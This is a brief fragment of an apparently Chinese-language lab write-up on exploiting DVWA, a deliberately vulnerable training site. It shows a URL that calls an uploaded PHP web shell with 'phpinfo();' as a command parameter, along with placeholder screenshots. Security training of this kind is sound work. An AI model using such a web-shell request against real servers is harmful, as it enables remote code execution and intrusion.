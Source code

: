 ![Alt text](image-67.png)   
成功访问，尝试输入指令。   
```url
 http://192.168.228.150/DVWA/hackable/uploads/ms_get_name.php?1=phpinfo();
```
![Alt text](image-68.png)
